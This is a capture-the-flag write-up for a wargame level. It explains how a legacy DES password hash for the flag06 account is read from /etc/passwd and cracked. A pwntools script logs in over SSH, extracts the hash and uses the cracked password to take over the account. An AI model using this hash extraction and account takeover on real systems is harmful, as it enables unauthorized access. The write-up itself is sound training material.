

# Level 06

## Discription

> The flag06 account credentials came from a legacy unix system. \
\
> To do this level, log in as the level06 account with the password level06. Files for this level can be found in /home/flag06.

## Solution

This challenge requires a bit of googling. As the description states `The flag06 account credentials came from a legacy unix system`, we know that earlier unix used to keep password hashes in /etc/passwd file. Looking into /etc/passwd we can find flag06 user and its password hash with it. It is Traditional DES or DEScrypt hash which can be cracked by hashcat and john both.

 

## Python

```python
#!/usr/bin/python3

from pwn import *
from sys import argv,exit

if len(argv) < 2:
	sys.exit("Target IP Missing") 

level06 = ssh(host=argv[1],user='level06',password='level06')
level06_shell = level06.shell('sh')
level06_shell.sendline('cat /etc/passwd | grep "flag06" | cut -d ":" -f 2 > /tmp/hash')
flag06_hash = (level06.download_data('/tmp/hash')).decode().strip('\n')
level06_shell.kill()
level06.close()

log.progress(f'Got flag06 Hash:Password : {flag06_hash}:hello')

flag06 = ssh(host=argv[1],user='flag06',password='hello')
flag06_shell = flag06.shell('sh')
flag06_shell.sendline('getflag') 
flag06_shell.interactive(prompt="") 
```

